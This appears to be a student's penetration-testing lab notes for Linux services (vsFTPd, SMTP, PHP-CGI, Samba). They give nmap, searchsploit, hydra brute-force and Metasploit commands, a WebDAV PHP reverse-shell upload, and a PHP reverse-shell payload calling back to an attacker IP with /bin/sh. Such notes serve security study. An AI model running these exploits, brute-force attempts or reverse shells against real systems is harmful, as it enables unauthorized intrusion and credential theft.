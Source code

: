 

#### Port scanning & enumeration 

- service versoin detection scan on target system `nmap -sV -p1-10000 target -oN nmap_10k.txt 
- manual banner grabbing if nmap does not provide any results: `nc - nv ip port`

![[Pasted image 20230916125239.png]] 
this port allowed a connection to a bind shell listener (root shell :O)


#### Targeting vsFTPd

- nmap port 21 
if anonymous login is allowed we can login without credentials
- ftp ip port (username:anonoymous emptypassword)
- `searchsploit vsftpd `
- `searchsploit -m exploitdb_id 
- analyze exploit with `vim` 
- `chmod +x file`
- `python3 file ip `

it is possible that this does not work bc the port used in this exploit can be removed  by the administrator (check port wit nmap) -> exploits might not work bc they have been patched. 

- `nmap -sV -p 25 ip (SMTP)`
smtp gives you easy way to identify user accounts on target system. 
	- use msfconsole
	- search smtp_enum 
 accounts: add them to textfile. 

Use the account `service` in the bruteforce, not interesting to use service accounts for bruteforce. Only use user-accounts in bruteforce
ftp bruteforce: `hydra -l service -P /usr/share/metasploit-framework/data/wordlists/unix_users.txt target protocol `

Connect to ftp with credentials of useraccount
- `pwd` (if result is /home/service that that confirms that this is a user-account)
- `cd /`
- visit webserver in browser
	- Use webdav to get reverse shell 
		- `ls -al /usr/share/webshells/`
		- you need a php shell:  php-reverse-shell.php
		- copy file to current working directory: `cp /usr/share/webshells/php/php-reverse-shell.php . `
		- rename: `mv php-reverse-shell.php shell.php `
		- modify the file: change the ip to kali ip and the port should match with the port you will be listening on
			- set up netcat in other window: `nc -nvlp 1234 `
		- navigate to root of ftp (ftp stores everything under var)
			- `cd /var/www`
			- `cd dav` (only have rights to change this directory)
			- `put shell.php `
			- click on the file (the netcat listener window will show a connection, /bin/bash -i)





#### Targeting PHP

- run `nmap` service scan 
- visit webserver in browser 
	- what version of php is running? 
		- visit `/phpinfo.php` file in browser
	- `searchsploit php cgi `
	- `searchsploit -m 18836.py . `   (CGI Argument Injected )
	

![[Pasted image 20230916153801.png]]
![[Pasted image 20230916154248.png]]
modify pwn_code to provide us with a reverse shell
`
`**$sock=fsockopen("IP",1234);exec("/bin/sh -i <&3 >&3 2>&3");** `
`
(IP = kali ip, port of listner)

Explanation: simple PHP script, this code creates a socket con'nection to a specified IP address and port, and then it executes an interactive shell (`/bin/sh -i`) that reads its input from and writes its output to that socket connection. This can be used for remote command execution,

1. `$sock = fsockopen("IP", 1234);`: This line uses the `fsockopen` function to create a network socket connection to the IP address specified in place of "IP" and the port 1234. The `fsockopen` function is often used in PHP to create socket connections to remote servers or services.
    
2. `exec("/bin/sh -i <&3 >&3 2>&3");`: After establishing the socket connection, this line uses the `exec` function to execute a shell command. The shell command being executed is `/bin/sh -i`, which typically invokes a Unix/Linux shell (e.g., Bash) in interactive mode (`-i`).
    
    - `<&3`: This part of the command redirects the standard input (stdin) of the shell to the socket connection represented by file descriptor 3. In this context, file descriptor 3 is assumed to be associated with the socket created in the previous line.
        
    - `>&3`: This part of the command redirects the standard output (stdout) of the shell to the same socket connection (file descriptor 3).
        
    - `2>&3`: This part redirects the standard error (stderr) of the shell to the same socket connection (file descriptor 3).

run exploit: python2 file ip port 

![[Pasted image 20230916154708.png]]
if you do not get a shell after executing change the 3 to 4: ![[Pasted image 20230916154849.png]]

`cat /etc/*release`
`uname -r`


#### Targeting SAMBA 

SMB implementation of Linux 

- `nmap -sV -p 445 ip `
- banner grabbing on port 445
- msfconsole: `search smb_version` 
- search vulnerabilities for version 
	- `searchsploit samba version `
	- in metasploit:` search samba version `
- use usermap_script 
- `cat /etc/*issue`
- `cat /etc/*release`
- upgrade session 
	- `sysinfo` 
	- `getuid`
	- `cat /etc/passwd `



